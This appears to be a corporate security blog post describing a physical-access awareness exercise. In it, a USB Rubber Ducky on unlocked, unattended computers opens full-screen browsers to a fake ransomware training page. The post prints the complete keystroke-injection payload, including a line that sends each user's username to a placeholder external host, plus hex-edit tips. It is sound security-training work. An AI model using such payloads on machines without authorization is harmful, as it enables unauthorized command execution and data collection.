

As part of our user security awareness training, we perform tests of our
personnel in the work environment.  One training exercise involved testing for
unattended computers by inserting a USB device that would display a ransomware
screen.

<!--more-->

## What is USB Rubber Ducky?

USB Rubber Ducky is a product made by a company called Hak5.  You can find
information about it at:

* [Hak5's hackshop.com](https://hakshop.com/products/usb-rubber-ducky-deluxe)
* [Hak5's GitHub Repository](https://github.com/hak5darren/USB-Rubber-Ducky)

To you, it looks like a USB thumb drive, but it actually emulates a USB HID
keyboard.  After it's plugged in, a payload programmed into the device sends
keyboard commands to the computer.

This allows a security tester to quickly run commands on an unprotected computer
without having to sit down at the computer and type.

## Our ransomware exercise

We walked around our location looking for computers that were unattended and
had not been locked (left at the desktop screen).  If we discovered an unattended
computer, we inserted the USB Rubber Ducky into a USB port which delivered our
payload.

### What happens?

The payload sends keystroke commands that:

1. Open up a web browser
1. Place the web browser full screen
1. Open a second web browser on the second monitor
   * Also in full-screen mode
1. Navigate to a fake ransomware page

The fake ransomware page includes text that indicates it is a security test and
provides links to security training for the user.

## Payload code and tools

The tool **duckencoder_2.6.4.jar** from the
[USB Rubber Ducky GitHub site](https://github.com/hak5darren/USB-Rubber-Ducky)
encodes the payload command script for the USB Rubber Ducky hardware.

One limitation is that the encoder does not have built-in support for the key
combination of **win + CTRL + desktop** (open a new virtual desktop).  I
overcame this limitation by manually editing the compiled **inject.bin** with a
hex editor to change the keycode bytes from _07 05_ to _07 09_ (hexadecimal).

Although I have submitted code enhancements to the product's GitHub project,
the maintainers have not updated it in quite some time (Dec. 7, 2016).  Ideally,
the encoder would have support for more key combinations, but most desired
actions can be done without using a hex editor.  I was successful in getting
**STRING_DELAY** added to the official code base, and this script command is
very helpful for writing shorter payloads.

### Code

```
REM Author:  Rodney Beede of GES-TVA
REM Created: 2018-05-31


DEFAULT_DELAY 100

REM startup delay
DELAY 100

REM Create a new desktop is  win + CTRL + desktop
REM ducky script doesn't support this so make it yourself
REM by ORing the MODIFIER_KEY values together! and HxD
REM https://github.com/hak5darren/USB-Rubber-Ducky/blob/master/Encoder/resources/keyboard.properties

REM CTRL-ALT d MAKES 07 05
REM CTRL-ALT === 0x05
REM d === 0x07   (these are keyboard codes, not ascii)
REM win+ctrl+d MAKES 07 09
CTRL-ALT d


REM run dialog
GUI r

REM the double quotes are important
STRING_DELAY 10 "c:\Program Files\internet explorer\iexplore.exe" -k https://fake-ransomeware-page.example.com/log/%username%
ENTER


REM open a second one and put on the second monitor

GUI r
STRING_DELAY 10 "c:\Program Files\internet explorer\iexplore.exe" -k https://fake-ransomeware-page.example.com/log/%username%
ENTER


REM win+SHIFT+right arrow to move window to other desktop
REM HxD edit so CTRL-ALT (05) becomes WIN+SHIFT value:  0A
REM 4F 05 ===>  4F 0A
CTRL-ALT RIGHT
```


## Summary

We chose the ransomware screen shock factor as a way to educate users of the
security risk to company data.  It creates more ownership (versus just an email
note from security) by demonstrating real-world impact of what could happen
from a malicious actor.



Use the Feedback tab to make any comments or ask questions.
